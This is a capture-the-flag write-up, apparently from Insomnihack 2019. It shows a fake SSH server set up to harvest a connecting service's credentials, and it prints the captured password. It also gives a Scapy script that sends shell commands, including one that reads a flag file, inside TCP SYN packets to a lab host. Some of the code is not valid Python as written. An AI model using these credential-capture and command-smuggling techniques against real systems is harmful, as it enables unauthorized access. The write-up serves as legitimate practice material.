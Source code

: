 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

==============

Net1


Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
- - - - - - - - - 
from scapy.all import *
def main(command):
    while True:
        # build the TCPSYN packet with the command as the payload
        pinger = IP(dst="10.13.37.98")
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)
        xsyn = pinger / SYN / command
        send(xsyn)
if __name__ == "__main__":
    main(ls -la)
 - - - - - - - - - - - -  
Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




